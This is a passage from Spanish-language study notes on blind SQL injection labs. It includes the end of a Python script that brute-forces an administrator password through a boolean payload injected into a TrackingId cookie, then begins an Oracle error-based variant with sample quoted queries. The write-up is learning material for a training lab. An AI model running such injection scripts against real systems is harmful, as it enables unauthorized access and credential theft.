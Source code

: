 ```python
                'TrackingId':"KGzeQcM6ttE4INAX' and (select substring(password,%d,1) from users where username='administrator')='%s'-- -" % (position,character),
                'session':'pC3y2SD373VSLw07MM4JXz9I1wgVEEKB'
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break


if __name__ == '__main__':
    makeRequest()
```

![[Pasted image 20230212201032.png]]

logramos encontrar la contraseña del usuario administrator:

![[Pasted image 20230212201125.png]]

#### Blind SQL injection with conditional errors (Oracle)

La inyeccion sucede de igual manera en la cookie **TrackingId**.

En este caso no hay una respuesta diferente en el response de la pagina, simplemente nos mostrara un estado 500 internal server error en caso de haber un error, podemos aprovechar esto para obtener informacion:

basandonos en la siguiente consulta que hace la pagina:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='zaPfzRCR8IdECfqg'
```

1 comilla simple provocaria un error:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='zaPfzRCR8IdECfqg''
```

![[Pasted image 20230212232612.png]]

pero 2 comillas simples ya no porque no se queda una sin cerrar:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='zaPfzRCR8IdECfqg'''
```

![[Pasted image 20230212232709.png]]

como vemos que nos muestra un codigo 500 podemos aprovechar el siguiente payload PoC:
